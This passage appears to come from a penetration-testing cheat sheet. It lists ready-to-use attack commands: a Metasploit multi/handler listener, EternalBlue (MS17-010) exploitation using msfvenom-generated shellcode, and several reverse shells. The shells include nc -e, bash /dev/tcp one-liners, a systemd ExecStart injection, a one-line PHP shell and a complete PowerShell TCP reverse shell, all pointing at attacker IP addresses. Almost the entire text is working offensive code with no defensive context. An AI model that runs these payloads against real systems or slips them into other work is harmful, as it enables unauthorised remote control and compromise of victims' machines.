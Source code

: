 use exploit/multi/handler
set payload generic/shell_reverse_tcp
set LHOST IP
set LPORT 4446
run
```

### Eternal Blue
```
#https://github.com/helviojunior/MS17-010
#Generate payload in exe format and use the send_and_execute.py
msfvenom -p windows/shel_reverse_tcp EXITFUNC=thread LHOST=IP LPORT=PORT -f exe -o payload.exe
python2 /opt/MS17-010/send_and_execute.py TARGET_IP payload.exe
# If this does not work, use the paylaod created by the following commands
msfvenom -p windows/x64/shell_reverse_tcp -a x64 LHOST=10.10.14.28 LPORT=443 -f raw -o sc_x64_payload.bin
nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```




## Payloads

#Payload Links
```https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config```

### Low Privilege Reverse Shell
```
#!/bin/bash
nc -e /bin/sh 192.168.x.x 4444
```
### Reverse Bash RAW for message redirecting
``` msfvenom -p cmd/unix/reverse_bash lhost=192.168.2.0 lport=4444 R ```

OUTPUT =  ```echo "0<&60-;exec 60<>/dev/tcp/192.168.1.106/1234;sh <&60 >&60 2>&60"```

Redirect this to message service on vulnerable machine e.g: 

```echo "0<&60-;exec 60<>/dev/tcp/192.168.1.106/1234;sh <&60 >&60 2>&60" >> send_message_to_machine.sh```

### ExecStart exploit
``` ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.124/4444 0>&1'
# To file: echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.124/4444 0>&1'" >> /tmp/wrapper.sh
```
### PHP Reverse Shell
https://github.com/pentestmonkey/php-reverse-shell

### Tiny PHP reverse shell
``` <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");```

### Reverse powershell 
https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
